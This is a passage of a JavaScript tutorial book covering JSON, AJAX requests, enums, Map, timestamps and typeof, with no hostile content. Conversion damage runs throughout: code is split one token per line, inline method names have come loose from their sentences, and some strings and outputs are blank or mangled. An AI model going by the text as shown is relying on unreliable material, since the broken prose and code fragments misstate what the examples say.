fetched from an external source. Functionally, JSON isn\'t very
different from XML or YAML  some confusion can be avoided if JSON is
just imagined as some serialization format that looks very much like
JavaScript.
>
Even though the name implies just objects, and even though the
majority of use cases through some kind of API always happen to be
objects and arrays, JSON is not for just objects or arrays. The
following primitive types are supported:
>
String (e.g. \"Hello World!\")
>
Number (e.g. 42)
>
Boolean (e.g. **true**)
>
The value **null**
>
**undefined** is not supported in the sense that an undefined property
will be omitted from JSON upon serialization. Therefore, there is no
way to deserialize JSON and end up with a property whose value is
**undefined**.
>
The string \"42\" is valid JSON. JSON doesn\'t always have to have an
outer envelope of \"{\...}\" or \"\[\...\]\".
>
While some JSON is also valid JavaScript and some JavaScript is also
valid JSON, there are some subtle differences between both languages
and neither language is a subset of the other.
>
Take the following JSON string as an example:

{

\"color\"

:

\"blue\"

}

This can be directly inserted into JavaScript. It will be
syntactically valid and will yield the correct value:

**const**

skin

=

{

\"color\"

:

\"blue\"

}

;

However, we know that \"color\" is a valid identifier name and the
quotes around the property name can be omitted:

**const**

skin

=

{

color

:

\"blue\"

}

;

We also know that we can use single quotes instead of double quotes:

**const**

skin

=

{

\'color\'

:

\'blue\'

}

;

But, if we were to take both of these literals and treat them as JSON,
**neither will be syntactically valid** JSON:

{

color

:

\"blue\"

}

{

\'color\'

:

\'blue\'

}

JSON strictly requires all property names to be double quoted and
string values to be double quoted as well.
>
It\'s common for JSON-newcomers to attempt to use code excerpts with
JavaScript literals as JSON, and scratch their heads about the syntax
errors they are getting from the JSON parser.
>
More confusion starts arising when *incorrect terminology* is applied
in code or in conversation.
>
A common anti-pattern is to name variables that hold non-JSON values
as \"json\":

fetch

(

url

)

.

then

(

**function**

(

response

)

{

**const**

json

=

JSON.

parse

(

response.

data

)

;

*// Confusion ensues!*

*// We\'re done with the notion of \"JSON\" at this point,*

*// but the concept stuck with the variable name.*

}

)

;

  
  response.data
  

  

In the above example, is a JSON string that is returned by some API.
JSON stops at the HTTP response domain. The variable with the \"json\"
misnomer holds just a JavaScript value (could be an object, an array,
or even a simple number!)
>
A less confusing way to write the above is:

fetch

(

url

)

.

then

(

**function**

(

response

)

{

**const**

value

=

JSON.

parse

(

response.

data

)

;

*// We\'re done with the notion of \"JSON\" at this point.*

*// You don\'t talk about JSON after parsing JSON.*

}

)

;

Developers also tend to throw the phrase \"JSON object\" around a lot.
This also leads to confusion. Because as mentioned above, a JSON
string doesn\'t have to hold an object as a value. \"JSON string\" is
a better term. Just like \"XML string\" or \"YAML string\". You get a
string, you parse it, and you end up with a value.

## Section 35.2: Parsing with a reviver function

A reviver function can be used to filter or transform the value being
parsed.

Version ≥ 5.1

**var**

jsonString

=

\'\[{\"name\":\"John\",\"score\":51},{\"name\":\"Jack\",\"score\":17}\]\'

;

**var**

data

=

JSON.

parse

(

jsonString

,

**function**

reviver

(

key

,

value

)

{

**return**

key

===

\'name\'

?

value.

toUpperCase

(

)

:

value

;

}

)

;

Version ≥ 6

**const**

jsonString

=

\'\[{\"name\":\"John\",\"score\":51},{\"name\":\"Jack\",\"score\":17}\]\'

;

**const**

data

=

JSON.

parse

(

jsonString

,

(

key

,

value

)

=\>

key

===

\'name\'

?

value.

toUpperCase

(

)

:

value

)

;

This produces the following result:

\[

{

\'name\'

:

\'JOHN\'

,

\'score\'

:

51

}

,

{

\'name\'

:

\'JACK\'

,

\'score\'

:

17

}

\]

This is particularly useful when data must be sent that needs to be
serialized/encoded when being transmitted with JSON, but one wants to
access it deserialized/decoded. In the following example, a date was
encoded to its ISO 8601 representation. We use the reviver function to
parse this in a JavaScript Date.

Version ≥ 5.1

**var**

jsonString

=

\'{\"date\":\"2016-01-04T23:00:00.000Z\"}\'

;

**var**

data

=

JSON.

parse

(

jsonString

,

**function**

(

key

,

value

)

{

**return**

(

key

===

\'date\'

)

?

**new**

Date

(

value

)

:

value

;

}

)

;

Version ≥ 6

**const**

jsonString

=

\'{\"date\":\"2016-01-04T23:00:00.000Z\"}\'

;

**const**

data

=

JSON.

parse

(

jsonString

,

(

key

,

value

)

=\>

key

===

\'date\'

?

**new**

Date

(

value

)

:

value

)

;

It is important to make sure the reviver function returns a useful
value at the end of each iteration. If the reviver function returns
**undefined**, no value or the execution falls off towards the end of
the function, the property is deleted from the object. Otherwise, the
property is redefined to be the return value.

## Section 35.3: Serializing a value

  
  JSON.stringify
  

  

A JavaScript value can be converted to a JSON string using the
function.

JSON.

stringify

(

value

\[

,

replacer

\[

,

space

\]

\]

)

1.  value The value to convert to a JSON string.

*/\* Boolean \*/* JSON.stringify(**true**) *// \'true\'*
>
*/\* Number \*/* JSON.stringify(12) *// \'12\'*
>
*/\* String \*/* JSON.stringify(\'foo\') *// \'\"foo\"\'*
>
*/\* Object \*/* JSON.stringify({}) *// \'{}\'*
>
JSON.stringify({foo: \'baz\'}) *// \'{\"foo\": \"baz\"}\'*
>
*/\* Array \*/* JSON.stringify(\[1, **true**, \'foo\'\]) *// \'\[1,
true, \"foo\"\]\'*
>
*/\* Date \*/* JSON.stringify(**new** Date()) *//
\'\"2016-08-06T17:25:23.588Z\"\'*
>
*/\* Symbol \*/* JSON.stringify({x:Symbol()}) *// \'{}\'*

2.  replacer A function that alters the behaviour of the stringification
    process or an array of String and Number objects that serve as a
    whitelist for filtering the properties of the value object to be
    included in the JSON string. If this value is null or is not
    provided, all properties of the object are included in the resulting
    JSON string.

*// replacer as a function*

**function**

replacer

(

key

,

value

)

{

*// Filtering out properties*

**if**

(

**typeof**

value

===

\"string\"

)

{

**return**

}

**return**

value

}

**var**

foo

=

{

foundation

:

\"Mozilla\"

,

model

:

\"box\"

,

week

:

45

,

transport

:

\"car\"

,

month

:

7

}

JSON.

stringify

(

foo

,

replacer

)

*// -\\'{\"week\": 45, \"month\": 7}\'*

*// replacer as an array*

JSON.

stringify

(

foo

,

\[

\'foundation\'

,

\'week\'

,

\'month\'

\]

)

*// -\\'{\"foundation\": \"Mozilla\", \"week\": 45, \"month\": 7}\'*

*// only the \`foundation\`, \`week\`, and \`month\` properties are
kept*

3.  space For readability, the number of spaces used for indentation may
    be specified as the third parameter.

JSON.

stringify

(

{

x

:

1

,

y

:

1

}

,

**null**

,

2

)

*// 2 space characters will be used for indentation*

*/\* output:*

*{*

*\'x\': 1,*

*\'y\': 1*

*}*

*\*/*

  
  **\\t**
  

  

Alternatively, a string value can be provided to use for indentation.
For example, passing \'\' will cause the tab character to be used for
indentation.

JSON.

stringify

(

{

x

:

1

,

y

:

1

}

,

**null**

,

\'

**\\t**

\'

)

*/\* output:*

*{*

*\'x\': 1,*

*\'y\': 1*

*}*

*\*/*

## Section 35.4: Serializing and restoring class instances

You can use a custom toJSON method and reviver function to transmit
instances of your own class in JSON. If an object has a toJSON method,
its result will be serialized instead of the object itself.

Version \< 6

**function**

Car

(

color

,

speed

)

{

**this**

.

color

=

color

;

**this**

.

speed

=

speed

;

}

Car.

**prototype**

.

toJSON

=

**function**

(

)

{

**return**

{

\$type

:

\'com.example.Car\'

,

color

:

**this**

.

color

,

speed

:

**this**

.

speed

}

;

}

;

Car.

fromJSON

=

**function**

(

data

)

{

**return**

**new**

Car

(

data.

color

,

data.

speed

)

;

}

;

Version

≥

6

class

Car

{

constructor

(

color

,

speed

)

{

**this**

.

color

=

color

;

**this**

.

speed

=

speed

;

**this**

.

id\_

=

Math

.

random

(

)

;

}

toJSON

(

)

{

**return**

{

\$type

:

\'com.example.Car\'

,

color

:

**this**

.

color

,

speed

:

**this**

.

speed

}

;

}

**static**

fromJSON

(

data

)

{

**return**

**new**

Car

(

data.

color

,

data.

speed

)

;

}

}

**var**

userJson

=

JSON.

stringify

(

{

name

:

\"John\"

,

car

:

**new**

Car

(

\'red\'

,

\'fast\'

)

}

)

;

This produces the a string with the following content:
>
{\"name\":\"John\",\"car\":{\"\$type\":\"com.example.Car\",\"color\":\"red\",\"speed\":\"fast\"}}
>
**var** userObject = JSON.parse(userJson, **function** reviver(key,
value) { **return** (value && value.\$type === \'com.example.Car\') ?
Car.fromJSON(value) : value; });
>
This produces the following object:

{

name

:

\"John\"

,

car

:

Car

{

color

:

\"red\"

,

speed

:

\"fast\"

,

id\_

:

0.19349242527065402

}

}

## Section 35.5: Serializing with a replacer function

A replacer function can be used to filter or transform values being
serialized.

**const**

userRecords

=

\[

{

name

:

\"Joe\"

,

points

:

14.9

,

level

:

31.5

}

,

{

name

:

\"Jane\"

,

points

:

35.5

,

level

:

74.4

}

,

{

name

:

\"Jacob\"

,

points

:

18.5

,

level

:

41.2

}

,

{

name

:

\"Jessie\"

,

points

:

15.1

,

level

:

28.1

}

,

\]

;

*// Remove names and round numbers to integers to anonymize records
before sharing*

**const**

anonymousReport

=

JSON.

stringify

(

userRecords

,

(

key

,

value

)

=\>

key

===

\'name\'

?

**undefined**

:

(

**typeof**

value

===

\'number\'

?

Math

.

floor

(

value

)

:

value

)

)

;

This produces the following string:

\'\[{\"points\":14,\"level\":31},{\"points\":35,\"level\":74},{\"points\":18,\"level\":41},{\"points\":15,\"level\":2

8}\]

\'

## Section 35.6: Parsing a simple JSON string

  
  JSON.parse
  

  

The () method parses a string as JSON and returns a JavaScript
primitive, array or object:
>
**const** array = JSON.parse(\'\[1, 2, \"c\", \"d\", {\"e\":
false}\]\'); console.log(array); *// logs: \[1, 2, \"c\", \"d\", {e:
false}\]*

## Section 35.7: Cyclic object values

Not all objects can be converted to a JSON string. When an object has
cyclic self-references, the conversion will fail. This is typically
the case for hierarchical data structures where parent and child both
reference each other:

**const**

world

=

{

name

:

\'World\'

,

regions

:

\[

\]

}

;

world.

regions

.

push

(

{

name

:

\'North America\'

,

parent

:

\'America\'

}

)

;

console.

log

(

JSON.

stringify

(

world

)

)

;

*// {\"name\":\"World\",\"regions\":\[{\"name\":\"North
America\",\"parent\":\"America\"}\]}*

world.

regions

.

push

(

{

name

:

\'Asia\'

,

parent

:

world

}

)

;

console.

log

(

JSON.

stringify

(

world

)

)

;

*// Uncaught TypeError: Converting circular structure to JSON*

As soon as the process detects a cycle, the exception is raised. If
there were no cycle detection, the string would be infinitely long.

# Chapter 36: AJAX

AJAX stands for \"Asynchronous JavaScript and XML\". Although the name
includes XML, JSON is more often used due to its simpler formatting
and lower redundancy. AJAX allows the user to communicate with
external resources without reloading the webpage.

## Section 36.1: Sending and Receiving JSON Data via POST

Version ≥ 6

  
  json
  

  

Fetch request promises initially return Response objects. These will
provide response header information, but they don\'t directly include
the response body, which may not have even loaded yet. Methods on the
Response object such as .() can be used to wait for the response body
to load, then parse it.

**const**

requestData

=

{

method

:

\'getUsers\'

}

;

**const**

usersPromise

=

fetch

(

\'/api\'

,

{

method

:

\'POST\'

,

body

:

JSON.

stringify

(

requestData

)

}

)

.

then

(

response

=\>

{

**if**

(

!

response.

ok

)

{

**throw**

**new**

Error

(

\"Got non-2XX response from API server.\"

)

;

}

**return**

response.

json

(

)

;

}

)

.

then

(

responseData

=\>

{

**return**

responseData.

users

;

}

)

;

usersPromise.

then

(

users

=\>

{

console.

log

(

\"Known users: \"

,

users

)

;

}

,

error

=\>

{

console.

error

(

\"Failed to fetch users due to error: \"

,

error

)

;

}

)

;

## Section 36.2: Add an AJAX preloader

Here\'s a way to show a GIF preloader while an AJAX call is executing.
We need to prepare our add and remove preloader functions:

**function**

addPreloader

(

)

{

*// if the preloader doesn\'t already exist, add one to the page*

**if**

(

!

document.

querySelector

(

\'#preloader\'

)

)

{

**var**

preloaderHTML

=

\'\\'

;

document.

querySelector

(

\'body\'

)

.

innerHTML

+=

preloaderHTML

;

}

}

**function**

removePreloader

(

)

{

*// select the preloader element*

**var**

preloader

=

document.

querySelector

(

\'#preloader\'

)

;

*// if it exists, remove it from the page*

**if**

(

preloader

)

{

preloader.

remove

(

)

;

}

}

Now we\'re going to look at where to use these functions.

**var**

request

=

**new**

XMLHttpRequest

(

)

;

  
  request.readyState ==
  

  

Inside the onreadystatechange function you should have an if statement
with condition: 4

  
  && request.status == 200
  

  

.

  
  removePreloader
  

  

If **true**: the request is finished and response is ready that\'s
where we\'ll use ().

  
  addPreloader
  

  

Else if **false**: the request is still in progress, in this case
we\'ll run the function ()

xmlhttp.

onreadystatechange

=

**function**

(

)

{

**if**

(

request.

readyState

==

4

&&

request.

status

==

200

)

{

*// the request has come to an end, remove the preloader*

removePreloader

(

)

;

}

**else**

{

*// the request isn\'t finished, add the preloader*

addPreloader

(

)

}

}

;

xmlhttp.

open

(

\'GET\'

,

your_file.

php

,

**true**

)

;

xmlhttp.

send

(

)

;

## Section 36.3: Displaying the top JavaScript questions of the month from Stack Overflow\'s API

We can make an AJAX request to [Stack Exchange\'s
API](http://api.stackexchange.com/docs) to retrieve a list of the top
JavaScript questions for the month, then present them as a list of
links. If the request fails or the returns an API error, our promise
error handling displays the error instead.

Version ≥ 6

[View live results on
HyperWeb](http://plume-pine.hyperweb.space/hot-javascript.html).

**const**

url

=

\'http://api.stackexchange.com/2.2/questions?site=stackoverflow\'

\+

\'&tagged=javascript&sort=month&filter=unsafe&key=gik4BOCMC7J9doavgYteRw((\'

;

fetch

(

url

)

.

then

(

response

=\>

response.

json

(

)

)

.

then

(

data

=\>

{

**if**

(

data.

error_message

)

{

**throw**

**new**

Error

(

data.

error_message

)

;

}

**const**

list

=

document.

createElement

(

\'ol\'

)

;

document.

body

.

appendChild

(

list

)

;

**for**

(

**const**

{

title

,

link

}

of data.

items

)

{

**const**

entry

=

document.

createElement

(

\'li\'

)

;

**const**

hyperlink

=

document.

createElement

(

\'a\'

)

;

entry.

appendChild

(

hyperlink

)

;

list.

appendChild

(

entry

)

;

hyperlink.

textContent

=

title

;

hyperlink.

href

=

link

;

}

}

)

.

then

(

**null**

,

error

=\>

{

**const**

message

=

document.

createElement

(

\'pre\'

)

;

document.

body

.

appendChild

(

message

)

;

message.

style

.

color

=

\'red\'

;

message.

textContent

=

String

(

error

)

;

}

)

;

## Section 36.4: Using GET with parameters

This function runs an AJAX call using GET allowing us to send
**parameters** (object) to a **file** (string) and launch a
**callback** (function) when the request has been ended.

**function**

ajax

(

file

,

params

,

callback

)

{

**var**

url

=

file

\+

\'?\'

;

*// loop through object and assemble the url*

**var**

notFirst

=

**false**

;

**for**

(

**var**

key

**in**

params

)

{

**if**

(

params.

hasOwnProperty

(

key

)

)

{

url

+=

(

notFirst

?

\'&\'

:

\'\'

)

\+

key

\+

\"=\"

\+

params

\[

key

\]

;

}

notFirst

=

**true**

;

}

*// create a AJAX call with url as parameter*

**var**

xmlhttp

=

**new**

XMLHttpRequest

(

)

;

xmlhttp.

onreadystatechange

=

**function**

(

)

{

**if**

(

xmlhttp.

readyState

==

4

&&

xmlhttp.

status

==

200

)

{

callback

(

xmlhttp.

responseText

)

;

}

}

;

xmlhttp.

open

(

\'GET\'

,

url

,

**true**

)

;

xmlhttp.

send

(

)

;

}

Here\'s how we use it:
>
ajax(\'cars.php\', {type:\"Volvo\", model:\"300\", color:\"purple\"},
**function**(response) {
>
*// add here the code to be executed when data comes back to this
page* *// for example console.log(response) will show the AJAX
response in console* });

  
  cars.php
  

  

And the following shows how to retrieve the url parameters in :
>
**if**(isset(\$\_REQUEST\[\'type\'\], \$\_REQUEST\[\'model\'\],
\$\_REQUEST\[\'color\'\])) { *// they are set, we can use them !*
>
\$response = \'The color of your car is \' . \$\_REQUEST\[\'color\'\]
. \'. \';
>
\$response .= \'It is a \' . \$\_REQUEST\[\'type\'\] . \' model \' .
\$\_REQUEST\[\'model\'\] . \'!\'; echo \$response; }

  -
  console.log                             (   response
    

  -

If you had ) in callback function the result in console would have
been:

The color of your car is purple. It is a Volvo model 300!

## Section 36.5: Check if a file exists via a HEAD request

This function executes an AJAX request using the HEAD method allowing
us to **check whether a file exists in the directory** given as an
argument. It also enables us to **launch a callback for each case**
(success, failure).

**function**

fileExists

(

dir

,

successCallback

,

errorCallback

)

{

**var**

xhttp

=

**new**

XMLHttpRequest

;

*/\* Check the status code of the request \*/*

xhttp.

onreadystatechange

=

**function**

(

)

{

**return**

(

xhttp.

status

!==

404

)

?

successCallback

:

errorCallback

;

}

;

*/\* Open and send the request \*/*

xhttp.

open

(

\'head\'

,

dir

,

**false**

)

;

xhttp.

send

(

)

;

}

;

## Section 36.6: Using GET and no parameters

**var**

xhttp

=

**new**

XMLHttpRequest

(

)

;

xhttp.

onreadystatechange

=

**function**

(

)

{

**if**

(

xhttp.

readyState

===

XMLHttpRequest.

DONE

&&

xhttp.

status

===

200

)

{

*//parse the response in xhttp.responseText;*

}

}

;

xhttp.

open

(

\"GET\"

,

\"ajax_info.txt\"

,

**true**

)

;

xhttp.

send

(

)

;

Version

≥

6

The fetch API is a newer promise-based way to make asynchronous HTTP
requests.

fetch

(

\'/\'

)

.

then

(

response

=\>

response.

text

(

)

)

.

then

(

text

=\>

{

console.

log

(

\"The home page is \"

\+

text.

length

\+

\" characters long.\"

)

;

}

)

;

## Section 36.7: Listening to AJAX events at a global level

*// Store a reference to the native method*

**let**

open

=

XMLHttpRequest.

**prototype**

.

open

;

*// Overwrite the native method*

XMLHttpRequest.

**prototype**

.

open

=

**function**

(

)

{

*// Assign an event listener*

**this**

.

addEventListener

(

\"load\"

,

event

=\>

console.

log

(

XHR

)

,

**false**

)

;

*// Call the stored reference to the native method*

open.

apply

(

**this**

,

arguments

)

;

}

;

# Chapter 37: Enumerations

## Section 37.1: Enum definition using Object.freeze()

Version ≥ 5.1

JavaScript does not directly support enumerators but the functionality
of an enum can be mimicked.

*// Prevent the enum from being changed*

**const**

TestEnum

=

Object

.

freeze

(

{

One

:

1

,

Two

:

2

,

Three

:

3

}

)

;

*// Define a variable with a value from the enum*

**var**

x

=

TestEnum.

Two

;

*// Prints a value according to the variable\'s enum value*

**switch**

(

x

)

{

**case**

TestEnum.

One

:

console.

log

(

\"111\"

)

;

**break**

;

**case**

TestEnum.

Two

:

console.

log

(

\"222\"

)

;

}

The above enumeration definition, can also be written as follows:

**var**

TestEnum

=

{

One

:

1

,

Two

:

2

,

Three

:

3

}

Object

.

freeze

(

TestEnum

)

;

After that you can define a variable and print like before.

## Section 37.2: Alternate definition

  
  Object.freeze()
  

  

The method is available since version 5.1. For older versions, you can
use the following code (note that it also works in versions 5.1 and
later):

**var**

ColorsEnum

=

{

WHITE

:

0

,

GRAY

:

1

,

BLACK

:

2

}

*// Define a variable with a value from the enum*

**var**

currentColor

=

ColorsEnum.

GRAY

;

## Section 37.3: Printing an enum variable

After defining an enum using any of the above ways and setting a
variable, you can print both the variable\'s value as well as the
corresponding name from the enum for the value. Here\'s an example:

*// Define the enum*

**var**

ColorsEnum

=

{

WHITE

:

0

,

GRAY

:

1

,

BLACK

:

2

}

Object

.

freeze

(

ColorsEnum

)

;

*// Define the variable and assign a value*

**var**

color

=

ColorsEnum.

BLACK

;

**if**

(

color

==

ColorsEnum.

BLACK

)

{

console.

log

(

color

)

;

*// This will print \"2\"*

**var**

ce

=

ColorsEnum

;

**for**

(

**var**

name

**in**

ce

)

{

**if**

(

ce

\[

name

\]

==

ce.

BLACK

)

console.

log

(

name

)

;

*// This will print \"BLACK\"*

}

}

## Section 37.4: Implementing Enums Using Symbols

As ES6 introduced
[**Symbols**](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Symbol),
which are both **unique and immutable primitive values** that may be
used as the key of an Object property, instead of using strings as
possible values for an enum, it\'s possible to use symbols.

*// Simple symbol*

**const**

newSymbol

=

Symbol

(

)

;

**typeof**

newSymbol

===

\'symbol\'

*// true*

*// A symbol with a label*

**const**

anotherSymbol

=

Symbol

(

\"label\"

)

;

*// Each symbol is unique*

**const**

yetAnotherSymbol

=

Symbol

(

\"label\"

)

;

yetAnotherSymbol

===

anotherSymbol

;

*// false*

**const**

Regnum_Animale

=

Symbol

(

)

;

**const**

Regnum_Vegetabile

=

Symbol

(

)

;

**const**

Regnum_Lapideum

=

Symbol

(

)

;

**function**

describe

(

kingdom

)

{

**switch**

(

kingdom

)

{

**case**

Regnum_Animale

:

**return**

\"Animal kingdom\"

;

**case**

Regnum_Vegetabile

:

**return**

\"Vegetable kingdom\"

;

**case**

Regnum_Lapideum

:

**return**

\"Mineral kingdom\"

;

}

}

describe

(

Regnum_Vegetabile

)

;

*// Vegetable kingdom*

The [Symbols in ECMAScript
6](http://www.2ality.com/2014/12/es6-symbols.html) article covers this
new primitive type more in detail.

## Section 37.5: Automatic Enumeration Value

Version ≥ 5.1

This Example demonstrates how to automatically assign a value to each
entry in an enum list. This will prevent two enums from having the
same value by mistake. NOTE: [Object.freeze browser
support](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/freeze)

**var**

testEnum

=

**function**

(

)

{

*// Initializes the enumerations*

**var**

enumList

=

\[

\"One\"

,

\"Two\"

,

\"Three\"

\]

;

enumObj

=

{

}

;

enumList.

forEach

(

(

item

,

index

)

=\>

enumObj

\[

item

\]

=

index

\+

1

)

;

*// Do not allow the object to be changed*

Object

.

freeze

(

enumObj

)

;

**return**

enumObj

;

}

(

)

;

console.

log

(

testEnum.

One

)

;

*// 1 will be logged*

**var**

x

=

testEnum.

Two

;

**switch**

(

x

)

{

**case**

testEnum.

One

:

console.

log

(

\"111\"

)

;

**break**

;

**case**

testEnum.

Two

:

console.

log

(

\"222\"

)

;

*// 222 will be logged*

**break**

;

}

# Chapter 38: Map

**Parameter Details**

  -
  key                   ,       value
   - -

  -

iterable Any iterable object (for example an array) containing \[\]
pairs. key The key of an element. value The value assigned to the key.
callback Callback function called with three parameters: value, key,
and the map. thisArg Value which will be used as **this** when
executing callback.

## Section 38.1: Creating a Map

A Map is a basic mapping of keys to values. Maps are different from
objects in that their keys can be anything (primitive values as well
as objects), not just strings and symbols. Iteration over Maps is also
always done in the order the items were inserted into the Map, whereas
the order is undefined when iterating over keys in an object. To
create a Map, use the Map constructor:

**const**

map

=

**new**

Map

(

)

;

It has an optional parameter, which can be any iterable object (for
example an array) which contains arrays of two elements  first is
the key, the seconds is the value. For example:
>
**const** map = **new** Map(\[\[**new** Date(), {foo: \"bar\"}\],
\[document.body, \"body\"\]\]);
>
*// \^key \^value \^key \^value*

## Section 38.2: Clearing a Map

  
  clear
  

  

To remove all elements from a Map, use the .() method:

map.

clear

(

)

;

Example:

**const**

map

=

**new**

Map

(

\[

\[

1

,

2

\]

,

\[

3

,

4

\]

\]

)

;

console.

log

(

map.

size

)

;

*// 2*

map.

clear

(

)

;

console.

log

(

map.

size

)

;

*// 0*

console.

log

(

map.

**get**

(

1

)

)

;

*// undefined*

## Section 38.3: Removing an element from a Map

  
  **delete**
  

  

To remove an element from a map use the .() method.

map.

**delete**

(

key

)

;

Example:

**const**

map

=

**new**

Map

(

\[

\[

1

,

2

\]

,

\[

3

,

4

\]

\]

)

;

console.

log

(

map.

**get**

(

3

)

)

;

*// 4*

map.

**delete**

(

3

)

;

console.

log

(

map.

**get**

(

3

)

)

;

*// undefined*

This method returns **true** if the element existed and has been
removed, otherwise **false**:

**const**

map

=

**new**

Map

(

\[

\[

1

,

2

\]

,

\[

3

,

4

\]

\]

)

;

console.

log

(

map.

**delete**

(

1

)

)

;

*// true*

console.

log

(

map.

**delete**

(

7

)

)

;

*// false*

## Section 38.4: Checking if a key exists in a Map

  
  has
  

  

To check if a key exists in a Map, use the .() method:

map.

has

(

key

)

;

Example:

**const**

map

=

**new**

Map

(

\[

\[

1

,

2

\]

,

\[

3

,

4

\]

\]

)

;

console.

log

(

map.

has

(

1

)

)

;

*// true*

console.

log

(

map.

has

(

2

)

)

;

*// false*

## Section 38.5: Iterating Maps

  
  keys    (), .   values     () and .      entries      (). .   entries
  - - - -  - 

  

Map has three methods which returns iterators: .() is the default

  -
  key                   ,       value
   - -

  -

Map iterator, and contains \[\] pairs.

**const**

map

=

**new**

Map

(

\[

\[

1

,

2

\]

,

\[

3

,

4

\]

\]

)

;

**for**

(

**const**

\[

key

,

value

\]

of map

)

{

console.

log

(

\`key

:

\$

{

key

}

,

value

:

\$

{

value

}

\`

)

;

*// logs:*

*// key: 1, value: 2*

*// key: 3, value: 4*

}

**for**

(

**const**

key of map.

keys

(

)

)

{

console.

log

(

key

)

;

*// logs 1 and 3*

}

**for**

(

**const**

value of map.

values

(

)

)

{

console.

log

(

value

)

;

*// logs 2 and 4*

}

  
  forEach
  

  

Map also has .() method. The first parameter is a callback function,
which will be called for each element in the map, and the second
parameter is the value which will be used as **this** when executing
the callback function.
>
The callback function has three arguments: value, key, and the map
object.

**const**

map

=

**new**

Map

(

\[

\[

1

,

2

\]

,

\[

3

,

4

\]

\]

)

;

map.

forEach

(

(

value

,

key

,

theMap

)

=\>

console.

log

(

\`key

:

\$

{

key

}

,

value

:

\$

{

value

}

\`

)

)

;

*// logs:*

*// key: 1, value: 2*

*// key: 3, value: 4*

## Section 38.6: Getting and setting elements

  
  **get**   (   key   ) to get value by key and .          **set**   (   key   ,   value
    - -   -  

  

Use .) to assign a value to a key.

  
  **get**
  

  

If the element with the specified key doesn\'t exist in the map, .()
returns **undefined**.

  -
  .**set**()   method returns the map object, so you can chain         .**set**()
    

  -

calls.

**const**

map

=

**new**

Map

(

)

;

console.

log

(

map.

**get**

(

1

)

)

;

*// undefined*

map.

**set**

(

1

,

2

)

.

**set**

(

3

,

4

)

;

console.

log

(

map.

**get**

(

1

)

)

;

*// 2*

## Section 38.7: Getting the number of elements of a Map

  
  .size
  

  

To get the numbers of elements of a Map, use the property:

**const**

map

=

**new**

Map

(

\[

\[

1

,

2

\]

,

\[

3

,

4

\]

\]

)

;

console.

log

(

map.

size

)

;

*// 2*

# Chapter 39: Timestamps

## Section 39.1: High-resolution timestamps

  -
  [performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now)
  -

  -

returns a precise timestamp: The number of milliseconds, including
microseconds, since the

current web page started to load.

  
  [performanceTiming.navigationStart](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceTiming/navigationStart)
  

  

More generally, it returns the time elapsed since the event.

t

=

performance.

now

(

)

;

  
  performance.now()
  

  

For example, in a web browser\'s main context, returns 6288.319 if the
web page began to load 6288 milliseconds and 319 microseconds ago.

## Section 39.2: Get Timestamp in Seconds

To get the timestamp in seconds

Math

.

floor

(

(

**new**

Date

(

)

.

getTime

(

)

)

/

1000

)

## Section 39.3: Low-resolution timestamps

  
  [Date.now()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Date/now)
  

  

returns the number of whole milliseconds that have elapsed since 1
January 1970 00:00:00 UTC.

t

=

Date

.

now

(

)

;

  
  Date.now()
  

  

For example, returns 1461069314 if it was called on 19 April 2016 at
12:35:14 GMT.

## Section 39.4: Support for legacy browsers

  -
  Date.now()     is unavailable, use      [(**new**
                                          Date()).getTime()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Date/getTime)
   - 

  -

In older browsers where instead:

t

=

(

**new**

Date

(

)

)

.

getTime

(

)

;

  
  Date.now()
  

  

Or, to provide a function for use in older browsers, [use this
polyfill](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Date/now#Polyfill):

**if**

(

!

Date

.

now

)

{

Date

.

now

=

**function**

now

(

)

{

**return**

**new**

Date

(

)

.

getTime

(

)

;

}

;

}

# Chapter 40: Unary Operators

## Section 40.1: Overview

Unary operators are operators with only one operand. Unary operators
are more efficient than standard JavaScript function calls.
Additionally, unary operators can not be overridden and therefore
their functionality is guaranteed.
>
The following unary operators are available:

  
  **Operator**   **Operation**                                            **Example**
    -
  **delete**     The delete operator deletes a property from an object.   example

  **void**       The void operator discards an expression\'s return       example
                 value.                                                   

  **typeof**     The typeof operator determines the type of a given       example
                 object.                                                  

  \+             The unary plus operator converts its operand to Number   example
                 type.                                                    
  

\- The unary negation operator converts its operand to Number, then
negates it. example

\~ Bitwise NOT operator. example

! Logical NOT operator. example

## Section 40.2: The typeof operator

The **typeof** operator returns the data type of the unevaluated
operand as a string.
>
**Syntax:**

**typeof**

operand

**Returns:**
>
These are the possible return values from **typeof**:

**Type Return value**

Undefined \"undefined\"

Null \"object\"

Boolean \"boolean\"

Number \"number\"

String \"string\"

Symbol (ES6) \"symbol\"

Function object \"function\"

  
  document.all
  

  

\"undefined\"
>
Host object (provided by the JS environment) Implementation-dependent

Any other object \"object\"

  
  document.all
  

  

The unusual behavior of with the **typeof** operator is from its
former usage to detect legacy browsers.
>
For more information, see [Why is document.all defined but typeof
document.all returns
\"undefined\"?](http://stackoverflow.com/q/40643613/6388243)
>
**Examples:**

*// returns \'number\'*

**typeof**

3.14

;

**typeof**

**Infinity**

;

**typeof**

**NaN**

;

*// \"Not-a-Number\" is a \"number\"*

*// returns \'string\'*

**typeof**

\"\"

;

**typeof**

\"bla\"

;

**typeof**

(

**typeof**

1

)

;

*// typeof always returns a string*

*// returns \'boolean\'*

**typeof**

**true**

;

**typeof**

**false**

;

*// returns \'undefined\'*

**typeof**

**undefined**

;

**typeof**

declaredButUndefinedVariable

;

**typeof**

undeclaredVariable

;

**typeof**

**void**

0

;

**typeof**

document.

all

*// see above*

*// returns \'function\'*

**typeof**

**function**

(

)

{

}

;

**typeof**

class

C

{

}

;

**typeof**

Math

.

sin

;

*// returns \'object\'*

**typeof**

{

*/\*\<\...\>\*/*

}

;

**typeof**

**null**

;

**typeof**

*/regex/*

;

*// This is also considered an object*

**typeof**

\[

1

,

2

,

4

\]

;

*// use Array.isArray or Object.prototype.toString.call.*

**typeof**

**new**

Date

(

)

;

**typeof**

**new**

RegExp

(

)

;

**typeof**

**new**

Boolean

(

**true**

)

;

*// Don\'t use!*

**typeof**

**new**

Number

(

1

)

;

*// Don\'t use!*

**typeof**

**new**

String

(

\"abc\"

)

;

*// Don\'t use!*

*// returns \'symbol\'*

**typeof**

Symbol

(

)

